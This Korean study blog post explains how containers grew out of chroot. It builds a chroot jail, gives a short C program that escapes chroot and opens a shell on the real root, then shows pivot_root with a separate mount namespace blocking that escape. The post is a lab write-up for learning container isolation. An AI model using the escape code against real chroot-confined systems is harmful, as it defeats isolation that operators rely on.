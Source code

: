 ```yaml
---
layout: post
title: 컨테이너의 시작 chroot 감옥 체험기
category: study
tags: kans
---
```


컨테이너는 가상머신과 다르게 커널을 공유해서 바로 프로세스를 실행 할 수 있는 구조이다. 
아래 그림과 같이 호스트 커널을 공유하지만 각각의 독립된 사용자 공간을 가진다.
![1-0](/assets/img/1-0.png)


이러한 컨테이너의 시작은 특정 디렉토리를 루트(/)로 지정하여 해당 경로에 프로세스를 가두는 방식이다.


#### 사용되는 명령어

chroot [^1]
프로세스가 실행되는 루트 디렉토리를 특정 디렉토리로 변경한다.
pivot_root [^2]
프로세스의 마운트 네임스페이스에서 루트 마운트를 특정 디렉토리에 마운트 되어있는 새 마운트로 변경한다.



#### 감옥생성

```
# 루트가 될 디렉토리(new-root)를 생성 후 필요한 명령어 복사
mkdir -p new-root/bin
cp $(which bash) new-root/bin

# 명령어 실행 시 참조하는 라이브러리 복사
ldd /bin/bash
cp /lib/x86_64-linux-gnu/libtinfo.so.6 new-root/lib/
...
```
이런식으로 필요한 명령어들을 하나씩 복사해서 넣어준다.
chroot 명령어를 통해 들어가보면 만들어진 루트 디렉토리에 갇힌 것을 확인할 수 있다.
![1-1](/assets/img/1-1.png)


#### 탈옥
탈옥하기에 앞서 위와 같이 명령어를 하나씩 다 넣기는 힘드니 만들어진 이미지를 사용하여 새로운 루트를 만들어준다.

```
# nginx이미지를 tar로 압축 후 nginx-root 디렉토리에 압축 해제
docker export $(docker create nginx:latest) | tar -C nginx-root -xvf -

# 탈옥 코드
cat <<EOF >escape_chroot.c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
  mkdir(".out",0755);
  chroot(".out");
  chdir("../../../../../");
  chroot(".");

  return execl("/bin/sh", "-i", NULL);
}

# 위의 코드를 컴파일하여 nginx-root에 escape_chroot이라는 실행 파일을 생성
gcc -o nginx-root/escape_chroot escape_chroot.c
```
chroot 명령어를 사용하여 들어가 탈옥코드로 만든 실행파일을 실행시키면 진짜 루트 디렉토리로 나오게된다.
![1-2](/assets/img/1-2.png)


#### 문제 해결을 위해 pivot_root와 mount namespace를 이용하여 다시 가두기

```
# 디렉토리 생성 후 800M사이즈의 파일시스템을 마운트 
mkdir new-root 
mount -n -t tmpfs -o size=800M none new-root

# 위에서 테스트 했던 nginx-root의 파일들을 복사하여 새 디렉토리에 붙여넣기
cp -r nginx-root/* new-root/

# 
mkdir new-root/old-root

# 호스트에 영향을 주지않기 위해 mount namespace분리 (new-root에서 실행)
unshare -m
```
escape_chroot을 돌려도 만들어진 루트 디렉토리에서 빠져나오지 못하는 것을 확인할 수 있다.

![1-3](/assets/img/1-3.png)


---
참고
- https://netpple.github.io/docs/make-container-without-docker/container-internal-1
- https://netpple.github.io/docs/make-container-without-docker/container-internal-2
- https://www.44bits.io/ko/post/change-root-directory-by-using-chroot
[^1]: https://man7.org/linux/man-pages/man2/chroot.2.html
[^2]: https://manpages.debian.org/bullseye/manpages-dev/pivot_root.2.en.html

